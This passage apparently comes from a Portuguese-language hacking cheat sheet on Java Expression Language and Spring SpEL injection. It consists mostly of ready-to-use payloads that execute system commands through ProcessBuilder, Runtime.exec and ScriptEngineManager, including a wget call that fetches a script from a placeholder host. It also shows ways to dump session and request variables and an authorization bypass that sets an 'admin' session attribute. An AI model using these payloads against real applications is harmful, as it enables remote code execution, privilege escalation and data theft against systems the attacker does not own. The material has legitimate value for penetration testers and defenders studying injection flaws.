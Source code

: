 ```java

// Method using processbuilder
${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
${request.getAttribute("c").add("cmd.exe")}
${request.getAttribute("c").add("/k")}
${request.getAttribute("c").add("ping x.x.x.x")}
${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
${request.getAttribute("a")}

// Method using Reflection & Invoke
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}

// Method using ScriptEngineManager one-liner
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

// Method using ScriptEngineManager
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");

//https://github.com/marcin33/hacking/blob/master/payloads/spel-injections.txt
(T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec("cmd "+T(java.lang.String).valueOf(T(java.lang.Character).toChars(0x2F))+"c "+T(java.lang.String).valueOf(new char[]{T(java.lang.Character).toChars(100)[0],T(java.lang.Character).toChars(105)[0],T(java.lang.Character).toChars(114)[0]})).getInputStream(),T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()))
T(java.lang.System).getenv()[0]
T(java.lang.Runtime).getRuntime().exec('ping my-domain.com')
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("cmd /c dir").getInputStream())
''.class.forName('java.lang.Runtime').getRuntime().exec('calc.exe')
```
### Inspecionando o ambiente

* `applicationScope` - variáveis globais da aplicação
* `requestScope` - variáveis de requisição
* `initParam` - variáveis de inicialização da aplicação
* `sessionScope` - variáveis de sessão
* `param.X` - valor do parâmetro onde X é o nome de um parâmetro http

Você precisará converter essas variáveis para String como:
```bash
${sessionScope.toString()}
```
#### Exemplo de bypass de autorização
```bash
${pageContext.request.getSession().setAttribute("admin", true)}
```
A aplicação também pode usar variáveis personalizadas como:
```bash
${user}
${password}
${employee.FirstName}
```
## Bypass de WAF
